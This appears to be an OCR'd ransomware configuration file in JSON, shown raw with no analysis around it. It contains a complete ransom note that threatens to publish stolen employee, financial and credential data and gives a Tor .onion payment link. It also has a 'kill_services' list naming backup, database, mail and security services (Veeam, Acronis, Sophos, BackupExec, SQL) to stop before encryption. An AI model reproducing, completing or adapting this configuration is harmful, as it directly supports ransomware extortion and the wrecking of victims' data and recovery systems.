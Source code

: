 ```json
  "note_full_text": ">> What happened?\n\nImportant files on your network was ENCRYPTED and now they have \"${EXTENSION}\" extension.\nIn order to recover your files you need to follow instructions below.\n\n>> Sensitive Data\n\nSensitive data on your system was DOWNLOADED.\nIf you DON'T WANT your sensitive data to be PUBLISHED you have to act quickly.\n\nData includes:\n- Employees personal data, CVs, DL, SSN.\n- Complete network map including credentials for local and remote services.\n- Private financial information including: clients data, bills, budgets, annual reports, bank statements.\n- Manufacturing documents including: datagrams, schemas, drawings in solidworks format\n- And more...\n\n>> CAUTION\n\nDO NOT MODIFY ENCRYPTED FILES YOURSELF.\nDO NOT USE THIRD PARTY SOFTWARE TO RESTORE YOUR DATA.\nYOU MAY DAMAGE YOUR FILES, IT WILL RESULT IN PERMANENT DATA LOSS.\n\n>> What should I do next?\n\nFollow these simple steps to get everything back to normal:\n1) Download and install Tor Browser from: https://torproject.org/\n2) Navigate to: http://rfosusl6qdm4zhoqbqnjxaloprld2qz35u77h4aap46rhwkouejsooqd.onion/?access-key=${ACCESS_KEY}",
  "note_short_text": "Important files on your network was DOWNLOADED and ENCRYPTED.\nSee \"${NOTE_FILE_NAME}\" file to get further instructions.",
  "default_file_mode": "Auto",
  "default_file_cipher": "Best",
  "credentials": [],
  "kill_services": [
    "mepocs",
    "memtas",
    "veeam",
    "svc$",
    "backup",
    "sql",
    "vss",
    "msexchange",
    "sql$",
    "mysql",
    "mysql$",
    "sophos",
    "MSExchange",
    "MSExchange$",
    "WSBExchange",
    "PDVFSService",
    "BackupExecVSSProvider",
    "BackupExecAgentAccelerator",
    "BackupExecAgentBrowser",
    "BackupExecDiveciMediaService",
    "BackupExecJobEngine",
    "BackupExecManagementService",
    "BackupExecRPCService",
    "GxBlr",
    "GxVss",
    "GxClMgrS",
    "GxCVD",
    "GxCIMgr",
    "GXMMM",
    "GxVssHWProv",
    "GxFWD",
    "SAPService",
    "SAP",
    "SAP$",
    "SAPD$",
    "SAPHostControl",
    "SAPHostExec",
    "QBCFMonitorService",
    "QBDBMgrN",
    "QBIDPService",
    "AcronisAgent",
    "VeeamNFSSvc",
    "VeeamDeploymentService",
    "VeeamTransportSvc",
    "MVArmor",
```